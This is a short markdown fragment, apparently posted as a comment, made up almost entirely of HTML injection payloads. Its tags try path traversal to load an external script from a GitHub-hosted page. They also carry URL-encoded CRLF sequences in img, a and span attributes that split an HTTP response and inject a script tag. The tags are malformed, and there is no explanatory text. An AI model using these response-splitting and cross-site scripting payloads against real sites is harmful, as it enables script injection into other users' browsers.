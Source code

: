 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../\%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E">XXX</a>

<img id="meu" src="" tabindex=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E></div>

<a href="" target="%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E">bbbb</div>

<span value="%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E">aaa</span>

](()
